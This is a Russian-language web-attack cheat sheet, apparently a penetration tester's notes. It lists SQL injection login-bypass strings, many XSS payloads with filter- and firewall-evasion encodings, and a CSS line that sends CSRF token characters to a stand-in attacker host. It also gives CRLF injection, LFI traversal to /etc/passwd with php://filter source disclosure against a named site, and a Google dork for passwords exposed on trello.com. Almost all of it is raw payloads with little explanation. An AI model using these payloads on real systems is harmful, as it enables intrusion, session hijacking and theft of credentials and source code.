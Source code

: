 **SQL**

a - (Строковой входящий параметр) 
php?id=1'
php?id=1' —
b - (Числовой входящий параметр)
php?id=1 blablabla
php?id=-1
c - (Авторизация)
Под ником 'Admin' нам нужно вписать вместо него что то наподобие этого Admin' — 
Уязвимость в поле 'pass'
123' OR login='Admin' — 
d - (Оператор LIKE)
Вместо пароля просто ввести "%"

2. XSS
'":;<>/\[]<script><h1>
''`;!--"<XSS>=&{()}

< - &lt;
> - &gt;
& - &amp;
" - &quot;
' - &#039;

: - %3A
/ - %2F

<script>alert(5)</script>

"><script>alert(5)</script>

;alert()

<a href="javascript:alert(1)">

NULL <scri%00pt>alert()</scri%00pt>

TAB <svg+src="jav%09ascript:alert(1)">

Newline <script>//>%0Aalert(1);</script>

Carriage Return <script>//>%0Dalert(1);</script>

Spaces < s c r i p t > p r o m t ( 1 ) < / s c r i p t >

/#text= NAME'); alert(document.cookie+'

reflected XSS - /?report=javascript
%3aalert(document.domain)

php?email='-alert(document.domain)-'

<script>\u0061\u006C\u0065\u0072\u0074(I)</script>

<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />

"><img src=x onerror=prompt(1);>

<script>a="get";b="URL";c="javascript:";d="alert(1);";eval(a+b+c+d);</script>

<form action="javascript:alert(document.location);"><input type="submit" /></form>

<iframe src="//www.youtube.com/embed/Ik9fCVkKeLg" frameborder="0" style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">

<div style="background:url('javascript:alert(1)')">

input[name=csrf_token][value=^a]{background-image:url('http://attack.com/log.php?a');}

XSS с помощью css:
<style>img{background-image:url('javascript:alert(1)')}</style>

Обход фаерволов:
<style>*{background-image:url('\6A\61\76\61\73\63\72\69\70\74\3A\61\6C\65\72\74\28\6C\6F\63\61\74\69\6F\6E\29')}</style>

Polyglot XSS - Mathias Karlsson
" onclick=alert(document.cookie)//<button ‘ onclick=alert(document.cookie)//> */ alert(1)//

3. Authentication bypass
В процессе аутентификации при доступе к веб-сайту, посетив ссылку для отмены подписки.
PHPSESSID=xxx;

4. Link filter protection bypass
?url=site%E3%80%82com

5. CRLF Injection
GET /qwerty%0ASet-Cookie:%20test=qwerty;domain=.beepcar.ru HTTP/1.1

6. robots.txt
Disallow - Запрет доступа всех роботов 
Allow - Разрешает доступ к определенной части ресурса

7. LFI
/index.php?file=/../../../../../../etc/passwd 

file=/../../../../../../etc/passwd.php%00 

file=/../../../../../../etc/passwd%00.php 

index.txt при условии, что приписывается окончание .php 
index.txt/././././../...«(100-10)/2 раз».../././ 

php://filter/convert.base64-encode/resource=index 
http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index

8. google dork 
«site:trello.com AND intext:@gmail\.com AND intext:password»
